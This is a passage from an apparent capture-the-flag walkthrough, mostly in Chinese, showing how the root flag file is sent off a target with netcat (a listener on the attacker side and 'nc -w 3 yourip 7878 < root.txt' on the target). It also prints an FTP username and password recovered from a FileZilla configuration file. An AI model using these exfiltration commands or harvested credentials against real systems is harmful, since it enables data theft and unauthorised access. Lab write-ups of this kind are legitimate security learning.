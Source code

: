 7. Get root flag

* 在本地端主機開啟netcat接收檔案
```
nc -l -p 7878 > root.txt
```
![](https://i.imgur.com/CasDVBK.png)

* 在目標主機上開啟netcat傳輸帶有flag的檔案
```
nc -w 3 yourip 7878 < root.txt
```
![](https://i.imgur.com/cUO36XF.png)

* Get the admin flag
```
cat root.txt
```
![](https://i.imgur.com/yXWsHlS.png)

8. 拓展
 在root的文件夾中，我們看到一個.config文件夾，其中包含一個FileZilla配置文件
* ftpuser : mc@F1l3ZilL4